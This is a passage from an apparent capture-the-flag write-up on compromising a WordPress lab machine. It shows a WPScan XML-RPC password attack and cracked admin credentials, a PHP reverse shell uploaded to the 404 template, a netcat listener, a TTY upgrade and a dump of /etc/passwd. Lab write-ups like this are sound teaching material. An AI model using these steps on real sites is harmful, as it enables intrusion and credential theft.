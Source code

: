``` txt
[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
| Found By: Emoji Settings (Passive Detection)
|  - http://10.10.156.30/wordpress/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
| Confirmed By: Meta Generator (Passive Detection)
|  - http://10.10.156.30/wordpress/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:00:01 <============================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys
Trying admin / lizzy Time: 00:01:19 <                                             > (3885 / 14348276)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
| Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

So now we can login to wordpress as admin and look around.

The wordpress page reveals a private note on credentials of william being william:arnold147 sofar this doesn't seem usable

## Wordpress php reverse shell

I used this [php reverse shell](https://github.com/ivan-sincek/php-reverse-shell), modified IP and port and uploaded it to the wordpress 404 page. Now time to start netcat on the chosen port e.g.```nc -lvnp 6666``` and call a page that doesn't exist e.g.```/blog/index.php/2020/08/03/50/``` with e.g. curl.

We now get a reverse shell but no TTY so we can try this: ```python -c 'import pty; pty.spawn("/bin/sh")'``` or this```/bin/sh -i```.

Let's have a look around:

/etc/passwd output

``` sh
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```